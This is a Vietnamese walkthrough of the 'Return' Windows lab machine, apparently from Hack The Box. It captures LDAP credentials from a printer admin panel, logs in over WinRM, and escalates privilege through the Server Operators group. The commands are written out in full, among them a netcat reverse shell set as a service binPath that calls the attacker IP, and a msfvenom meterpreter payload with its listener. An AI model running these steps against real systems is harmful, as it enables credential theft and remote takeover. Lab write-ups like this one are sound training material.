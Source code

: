 # Return

## Synopsis

Return là một machine Windows easy có panel administrator print network lưu trữ thông tin xác thực LDAP. Những thông tin xác thực này có thể bị bắt bằng cách nhập server LDAP độc hại cho phép chiếm được foothold trên server thông qua dịch vụ WinRM. User được phát hiện là một phần của group đặc quyền bị khai thác thêm để giành quyền truy cập hệ thống.

### Skills Required

- Kiến thức cơ bản về Windows

- Kiến thức cơ bản về Active Directory

### Skills Learned

- Lạm dụng Network Printer

- Lạm dụng Server Operators Group

## Enumeration

### Nmap

Bắt đầu bằng việc scan port.

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.233 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.10.10.233
```

![alt text](image.png)

Output của Nmap cho thấy target là machine chạy Windows có các port 80 (Internet Information Services), 445 (SMB) và 5985 (Windows Remote Management).

### SMB

Liệt kê dịch vụ SMB bằng công cụ `enum4linux`.

![alt text](image-1.png)

Điều này cho thấy host là một phần của domain `RETURN`. SMB không cho phép session NULL hoặc guest, do đó có thể chuyển sự chú ý sang trang web.

### IIS

![alt text](image-2.png)

Điều này sẽ hiển thị printer admin panel, như thấy trên các thiết bị đa chức năng Canon, Xerox và Epson dành cho doanh nghiệp. Điều hướng đến `Settings` sẽ hiển thị username và tên domain.

![alt text](image-3.png)

## Foothold

Các thiết bị này lưu trữ thông tin xác thực LDAP và SMB để máy in có thể truy vấn danh sách user từ Active Directory và có thể lưu các file đã scan vào ổ đĩa của user. Các trang cấu hình này thường cho phép chỉ định domain controller hoặc máy file server. Thiết lập listener trên port 389 (LDAP) và chỉ định IP address tun0 trong trường `Server address`.

```
sudo nc -lvnp 389
```

![alt text](image-4.png)

Đã nhận được kết nối và thông tin đăng nhập của `svc-printer` được tiết lộ. Từ portscan, thấy port WinRM đang mở. Kết nối với dịch vụ bằng công cụ `evil-winrm`.

```
gem install evil-winrm
evil-winrm -i 10.10.10.233 -u svc-printer -p '1edFg43012!!'
```

![alt text](image-5.png)

## Privilege Escalation

Việc liệt kê các group memberships cho thấy `svc-printer` là một phần của group `Server Operators`.

![alt text](image-6.png)

Có thể đọc thêm về group này (https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators). Các member của group này có thể bắt đầu/dừng các service hệ thống. Sửa đổi đường dẫn binary service để có được một reverse shell.

```
upload /usr/share/windows-resources/binaries/nc.exe
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2 1234"
```

Thiết lập một listener trên port 1234 và đưa ra các command bên dưới để lấy reverse shell.

```
sc.exe stop vss
sc.exe start vss
```

![alt text](image-7.png)

Shell thu được ở trên không ổn định và có thể die sau vài giây. Một cách hiệu quả hơn là thu được shell meterpreter và sau đó nhanh chóng chuyển sang quy trình ổn định hơn.

Có thể sử dụng `msfvenom` để tạo file dữ liệu thực thi reverse shell meterpreter cho Windows remote host.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=1337 -f exe > shell-x86.exe
```

![alt text](image-8.png)

Sử dụng shell Evil-WinRM hiện tại, file thực thi có thể được tải lên remote host.

```
upload shell.exe
```

![alt text](image-9.png)

Tiếp theo, sử dụng Metasploit console để cấu hình listener cho session reverse shell trên target Windows.

```
msfconsole
```

Chọn mô-đun khai thác `multi/handler`, được sử dụng để lắng nghe các kết nối đến từ hệ thống bị xâm phạm.

```
use exploit/multi/handler
```

![alt text](image-10.png)

Đặt payload là `windows/meterpreter/reverse_tcp` cho phép thiết lập kết nối reverse TCP giữa máy của attacker và target.

```
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 1337
```

![alt text](image-11.png)

Khởi động listener bằng lệnh `run`.

![alt text](image-12.png)

Sử dụng shell hiện có, sửa đổi đường dẫn binary service để có được reverse shell.

```
sc.exe config vss binPath="C:\Users\svc-printer\Desktop\shell.exe"
```

![alt text](image-13.png)

Đã có listener Metasploit chạy trên port `1337`, vậy bây giờ chạy các lệnh bên dưới để lấy reverse shell.

```
sc.exe stop vss
sc.exe start vss
```

![alt text](image-14.png)

Sau khi có session meterpreter, sử dụng lệnh `ps` để liệt kê các tiến trình đang chạy trên remote box.

![alt text](image-15.png)

Chọn một process phù hợp đang chạy dưới dạng `NT AUTHORITY\SYSTEM` và di chuyển đến process đó. Trong trường hợp này, di chuyển đến process có PID 3172.

```
migrate <PID>
```

![alt text](image-16.png)

Bây giờ có thể tạo một shell và lấy root flag.

```
shell
```

![alt text](image-17.png)